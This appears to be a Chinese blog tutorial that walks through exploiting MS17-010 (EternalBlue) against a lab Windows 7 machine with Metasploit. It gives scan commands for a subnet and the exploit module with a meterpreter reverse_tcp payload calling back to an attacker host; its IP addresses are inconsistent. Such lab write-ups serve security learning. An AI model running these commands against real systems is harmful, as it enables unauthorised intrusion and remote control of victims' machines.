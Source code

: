 ```yaml
---
cover: http://cloud.myxz.fun//blog/20250321163522292.png
icon: pen-to-square
date: 2025-03-19
category:
  - 经典漏洞
tag:
  - 永恒之蓝ms17-010
star: false
sticky: false
---
```


# 永恒之蓝ms17-010

MS17_010漏洞利用与安全加固（永恒之蓝）

之前做过就直接放出来啦

- 原理：

恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

- 开始

1.断开防火墙，windos 7 的防火墙关闭

![关闭防火墙](http://cloud.myxz.fun//blog/20250321163252914.png)

2.实现相互ping通

![ping通](http://cloud.myxz.fun//blog/20250321163512998.png)

![image-20250321163319897](C:\Users\17929\AppData\Roaming\Typora\typora-user-images\image-20250321163319897.png)

环境弄好了，正文开始！172.16.17.0

3.在kali当中启动metasploit工具，

通过执行msfconsole指令进行启动。

![msf](http://cloud.myxz.fun//blog/20250321163522292.png)

4.Search命令搜索ms17-010漏洞扫描模块，图中圈中的就是漏洞扫描模块。

执行：

```
search ms17-010 //搜索ms17-010相关漏洞利用模块
```

![选择](http://cloud.myxz.fun//blog/20250321163529077.png)

执行：

```
msf > use auxiliary/scanner/smb/smb_ms17_010 （利用模块该扫描模块并且设置相关扫描范围信息）。**
```

执行：

```
use auxiliary/scanner/smb/smb_ms17_010 //选择使用该模块执行搜索选项

set rhosts 192.168.6.0/24 //设置扫描的网段范围

set threads 20 //设置扫描的线程，数值越大扫描速度越快

run //开始运行即开始执行扫描
```

![负载](http://cloud.myxz.fun//blog/20250321163538468.png)

6.执行扫描过后，结果如下所示，从结果中可以看到在当前扫描的网段中存在一个windows 7版本的操作系统存在ms17-010漏洞。（192.168.6.135就是window 7的IP）

![image-20250321163419199](C:\Users\17929\AppData\Roaming\Typora\typora-user-images\image-20250321163419199.png)

192.168.32.136:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)

7.接下来进行漏洞利用过程即可，

执行：

```
use exploit/windows/smb/ms17_010_eternalblue //选择漏洞利用模块

set payload windows/x64/meterpreter/reverse_tcp //设置漏洞利用完成后的反弹模块，用以接收回馈信息

set lhost 192.168.6.130//设置反弹IP地址

set lport 5555 //设置反弹端口

set rhost 192.168.6.135 //设置被攻击的目标主机
```

![配置](http://cloud.myxz.fun//blog/20250321163545820.png)﻿

执行：

```
show options //检查设定的信息
```

![查看](http://cloud.myxz.fun//blog/20250321163554821.png)﻿

9.

执行：

```
run
```

或

```
exploit //开始进行漏洞利用
```

![提权](http://cloud.myxz.fun//blog/20250321163602950.png)﻿

看到WIN了吗？你就成功了！！！
